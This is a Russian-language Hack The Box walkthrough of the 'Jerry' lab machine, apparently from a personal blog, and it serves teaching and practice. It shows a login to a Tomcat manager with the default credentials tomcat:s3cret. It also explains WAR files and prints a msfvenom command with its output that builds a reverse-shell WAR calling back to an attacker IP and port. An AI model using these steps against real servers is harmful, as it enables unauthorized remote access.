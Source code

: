 Помимо всего прочего видим сообщение о существовании дефолтного аккаунта для менеджера приложений. Проверим, действительно ли подойдут дефолтные креды.

# Web — Порт 8080
## Браузер
На `http://10.10.10.95:8080`, как и ожидалось, мы видим стандартную домашнюю страница Tomcat'а:

[![jerry-port80-browser-1.png]({{ "/img/htb/boxes/jerry/jerry-port80-browser-1.png" | relative_url }})]({{ "/img/htb/boxes/jerry/jerry-port80-browser-1.png" | relative_url }})

Попытка залогиниться в менеджере приложений (aka *Tomcat Web Application Manager*) с авторизационными данными по умолчанию `tomcat:s3cret` проходит успешно и мы оказываемся в админке:

[![jerry-port80-browser-2.png]({{ "/img/htb/boxes/jerry/jerry-port80-browser-2.png" | relative_url }})]({{ "/img/htb/boxes/jerry/jerry-port80-browser-2.png" | relative_url }})

# Эксплуатируем Tomcat
Для того, чтобы получить reverse-shell, будем использовать функционал развертывания war-файлов "WAR file to deploy":

[![jerry-port80-browser-3.png]({{ "/img/htb/boxes/jerry/jerry-port80-browser-3.png" | relative_url }})]({{ "/img/htb/boxes/jerry/jerry-port80-browser-3.png" | relative_url }})

## Web Application Resource
**W**eb **A**pplication **R**esource (WAR) файлы — это такие файлы-контейнеры (архивы, по сути), которые содержат в себе все необходимое для Java-приложения. Это могут быть Java-архивы (.jar), страницы Java Server Pages (.jsp), Java-сервлеты, Java-классы, веб-страницы, стили CSS и т. п.

В директории `/WEB-INF` внутри таких архивов содержится файл `web.xml`, определяющий структуру приложения.

Менеджер приложений Tomcat позволяет в один клик разворачивать Java-приложения из WAR-файлов на сервере, а так как последние содержат исполняемый Java-код, то они являются идеальной целью для внедрения вредоносной нагрузки.

## Генерируем WAR-файлы
Собрать WAR-файл с reverse-shell'ом внутри можно с помощью msfvenom:
```text
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.71 LPORT=31337 -f war > sh3ll.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of war file: 52250 bytes
```

Также можно было использовать `-p java/shell_reverse_tcp`, ориентированный на meterpreter-сессию, однако в нем будет много обвесов для Metasploit'а, которые будут нам мешать при [анализе содержимого]({{ page.url }}#внутри-sh3llwar).
